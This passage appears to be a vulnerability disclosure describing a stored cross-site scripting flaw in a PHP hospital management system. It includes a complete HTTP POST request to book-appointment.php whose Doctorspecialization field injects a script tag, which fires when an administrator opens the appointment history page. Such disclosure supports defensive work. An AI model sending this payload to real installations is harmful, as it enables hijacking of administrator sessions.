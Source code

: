![38.png](./img/38.png)

In summary, registered users can submit an appointment record with an XSS attack payload, and the vulnerability will be triggered when the administrator views the record.

After logging in the user account, submit the following request to save the appointment record:
```
POST /hms/book-appointment.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/book-appointment.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=qd2khmibk6ro2f92nl6k7bega0

Doctorspecialization=</td><script>alert("XSS");</script><td>&doctor=7&appdate=2020-02-13&apptime=10%3A30+AM&submit=&fees=2
```
This XSS is triggered when the administrator visits /hms/admin/appointment-history.php:

![39.png](./img/39.png)

